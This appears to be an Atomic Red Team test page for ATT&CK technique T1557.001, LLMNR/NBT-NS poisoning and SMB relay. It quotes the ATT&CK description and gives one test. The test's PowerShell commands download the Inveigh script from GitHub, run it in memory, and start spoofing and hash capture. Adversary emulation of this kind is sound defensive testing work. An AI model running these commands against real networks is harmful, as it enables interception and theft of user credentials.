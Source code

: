 # T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1557/001)

<blockquote>By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials.

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. (Citation: Wikipedia LLMNR)(Citation: TechNet NetBIOS)

Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords.

In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv1/v2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it.(Citation: byt3bl33d3r NTLM Relaying)(Citation: Secure Ideas SMB Relay) Additionally, adversaries may encapsulate the NTLMv1/v2 hashes into various protocols, such as LDAP, SMB, MSSQL and HTTP, to expand and use multiple services with the valid NTLM response.

Several tools may be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174).(Citation: GitHub NBNSpoof)(Citation: Rapid7 LLMNR Spoofer)(Citation: GitHub Responder)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)](#atomic-test-1---llmnr-poisoning-with-inveigh-powershell)

<br/>

## Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)

Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific listeners/sockets. This Atomic will run continuously until you cancel it or it times out.

**Supported Platforms:** Windows

**auto_generated_guid:** deecd55f-afe0-4a62-9fba-4d1ba2deb321

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/82be2377ade47a4e325217b4144878a59595e750/Inveigh.ps1" -UseBasicParsing)
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -MDNS Y -HTTPS Y -PROXY Y
```

<br/>
